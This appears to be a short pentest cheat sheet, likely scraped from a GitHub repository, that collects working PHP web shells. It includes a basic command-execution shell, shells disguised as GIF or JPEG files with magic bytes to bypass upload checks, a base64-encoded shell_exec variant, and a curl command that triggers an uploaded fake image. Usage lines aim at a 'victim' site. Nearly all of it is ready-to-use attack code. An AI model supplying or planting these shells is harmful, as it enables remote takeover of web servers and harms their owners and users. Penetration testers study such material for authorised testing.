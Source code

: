 More examples here
-------------------
https://github.com/jivoi/pentest/tree/master/shell

Simple PHP Webshell
-------------------
usage: http://www.yourvictim.com/shellname.php?cmd=whoami

```html
html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```

PHP web shell in a GIF or JPG with curl example
----------------------
```bash
echo 'FFD8FFEo' | xxd -r -p > test.gif
echo '<?php $c=$_GET['c']; echo `$c`; ?>' >> test.gif
curl -v http://ololo/uploads/test.gif?c=id
```

PHP web shell in GIF or JPG
--------------------
```php
GIF89a
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
#http://victims.site.com/phpwebshell.gif?cmd=dir
```

Base64 Encoded PHP webshell
```php
<?php $c=shell_exec(base64_decode($_POST['cmd'])); echo base64_encode($c);?>
#http://victims.site.com/phpwebshell.php?cmd=dir
```
